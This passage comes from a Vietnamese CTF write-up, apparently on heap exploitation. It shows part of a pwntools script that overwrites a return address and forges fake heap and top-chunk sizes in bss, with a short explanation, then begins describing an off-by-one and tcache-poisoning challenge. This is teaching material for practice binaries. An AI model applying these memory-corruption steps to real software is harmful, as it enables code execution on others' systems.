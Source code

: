 # Overwrite buf address with return address
info("Overwrite stack address with return address (0x{:x} ->
0x{:x})".format(stack_addr, ret))
overwrite(p64(0xdeadbeef) + p64(ret))

# Overwrite return address with reborn and set a fake chunk
info("Overwrite return address with sell_soul and create a fake chunk at:
0x{:x} (0x{:x} -> 0x{:x})".format(bss-0x8, ret, e.sym.sell_soul))
overwrite(p64(e.sym.sell_soul) + p64(bss-0x8))

# Overwrite fake chunk's size with a valid size
info("Overwrite fake chunk's size at 0x{:x} with 0x61 bytes..".format(bss-0x8))
overwrite(p64(0x61) + p64(bss+0x58))

# Overwrite Top chunk's size with a valid size
info("Overwrite Top chunk's size at 0x{:x} with 0x20d61
bytes".format(bss+0x58))
overwrite(p64(0x20d61) + p64(bss))
```

:::success
ta có thể thấy đầu tiên ta sẽ ovwrite retadd trước , sau đó địa chỉ tiếp theo là 1 vùng bss(1 vùng có thể write) ,  ghi size + bit vào (0x61) , tiếp theo đó là 1 vùng bss nữa (bss+0x58) , ta sẽ fake size của top chunk -> đây là cách thứ 2 của bài 
:::


xem thêm ở đây : 

https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

![image](https://hackmd.io/_uploads/Symm_pbGJe.png)

-------


29 . Bon-nie-appetit (off-by-one , overlapping , tcache poisoining)
--------


- 1 bài thuộc dạng Off-by-one. Overlapping chunks. Tcache poisoning



bài sẽ có các option sau: 

![image](https://hackmd.io/_uploads/rJgCYs4GfJl.png)


option 1 : 

nó phân bổ các chunk dựa trên size đã nhập , sẽ không có lỗi ở hàm này 

![image](https://hackmd.io/_uploads/ByIk2EGfJx.png)

hàm này sẽ check ta chỉ được phân bổ 20 chunk và chunk đó đã được phân bổ chưa 

![image](https://hackmd.io/_uploads/HJk8TNMG1l.png)

```